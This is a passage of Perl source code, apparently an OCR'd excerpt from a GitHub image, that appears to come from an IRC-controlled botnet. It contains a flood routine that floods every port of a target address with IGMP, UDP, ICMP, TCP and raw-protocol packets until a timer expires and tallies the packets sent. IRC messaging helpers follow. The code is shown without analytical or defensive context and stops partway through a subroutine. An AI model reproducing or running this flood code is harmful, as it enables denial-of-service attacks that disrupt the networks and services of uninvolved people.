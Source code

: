    while ( 1 ) { 

      for (my $porta = 1; $porta <= 65000; $porta++) { 

         $cur_time = time - $itime; 

         last if $cur_time >= $ftime; 

         send(SOCK1, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{igmp}++; 

         send(SOCK2, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{udp}++; 

         send(SOCK3, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{icmp}++; 

         send(SOCK4, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{tcp}++; 

         for (my $pc = 3; $pc <= 255;$pc++) { 

            next if $pc == 6; 

            $cur_time = time - $itime; 

            last if $cur_time >= $ftime; 

            socket(SOCK5, PF_INET, SOCK_RAW, $pc) or next; 

            send(SOCK5, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{o}++; 

         } 

      } 

      last if $cur_time >= $ftime; 

   } 

   return($cur_time, %pacotes); 

} 

  

sub ctcp { 

   return unless $#_ == 1; 

   sendraw("PRIVMSG $_[0] :\001$_[1]\001"); 

} 

  

sub msg { 

   return unless $#_ == 1; 

   sendraw("PRIVMSG $_[0] :$_[1]"); 

} 

  

sub notice { 

   return unless $#_ == 1; 

   sendraw("NOTICE $_[0] :$_[1]"); 
